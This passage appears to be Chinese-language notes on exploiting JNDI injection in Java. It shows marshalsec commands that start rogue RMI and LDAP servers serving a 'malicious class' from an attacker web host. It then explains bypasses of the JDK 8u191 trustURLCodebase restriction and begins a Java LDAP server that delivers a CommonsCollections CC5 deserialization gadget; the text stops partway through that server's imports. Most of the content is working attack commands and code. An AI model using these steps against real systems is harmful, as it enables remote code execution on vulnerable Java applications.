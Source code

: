 ```
#rmi服务器，rmi服务起在8088 恶意class在http://ip:8080/文件夹/#ExportObject 
#不加8088端口号 默认是1099
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:8080/文件夹/#ExportObject 8088
```

```
#LDAP服务器，LDAP服务起在8088 恶意class在http://ip:8080/文件夹/#ExportObject 
#不加8088端口号 默认是1389
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:8080/文件夹/#ExportObject 8088
```

恶意class文件的web服务还是需要自己去起

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8081/#test 1099
```

![image-20220216100740731](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220216100740731.png)

# JDK>=8u191

在 JDK 8u191 `com.sun.jndi.ldap.object.trustURLCodebase`属性的默认值被调整为false,所以需要另外的方式进行绕过

这里我选用的是8u201的JDK版本

```
两种绕过⽅法如下： 

找到⼀个受害者本地 CLASSPATH 中的类作为恶意的 Reference Factory 工厂类, 并利用这个本地的 Factory 类执行命令. 

利⽤ LDAP 直接返回⼀个恶意的序列化对象, JNDI 注⼊依然会对该对象进⾏反序列化操作, 利用反序列化 Gadget 完成命令执行. 

这两种⽅式都依赖受害者本地 CLASSPATH 中环境, 需要利⽤受害者本地的 Gadget 进行攻击
```

## 通过反序列化

既然利用了反序列化那就需要对应的Gadget,找一个全版本RCE的CC链即可

这里使用了CC5,先起一个LDAP服务

```
package JNDI.Bypass;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
```